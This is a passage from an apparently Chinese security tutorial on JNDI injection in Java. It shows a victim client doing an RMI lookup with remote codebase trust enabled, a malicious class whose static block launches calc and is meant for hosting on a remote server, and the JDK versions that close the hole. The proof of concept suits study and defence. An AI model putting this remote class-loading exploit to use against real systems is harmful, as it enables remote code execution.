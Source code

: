 ```java
    }
}

```


CLIENT端代码：


```java
package com.rmi;

import javax.naming.Context;
import javax.naming.InitialContext;

//受害者
public class CLIENT {
    public static void main(String[] args)throws Exception{
        //由于我使用的是jdk8u111版本，所以需要手动指定trustURLCodebase为true
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String uri = "rmi://127.0.0.1:1099/evil";//假如这个是攻击者可控的。
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}

```


恶意类,使用javac编译后放置于远程vps上


```java
import java.io.IOException;

public class ExecTest {
    public ExecTest() {
    }
    static {
        try {
            Runtime.getRuntime().exec("cmd /c calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}

```


上述代码攻击的时客户端，当然也可以攻击服务端。


但是JNDI注入利用条件较为严格：


```text
JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

```
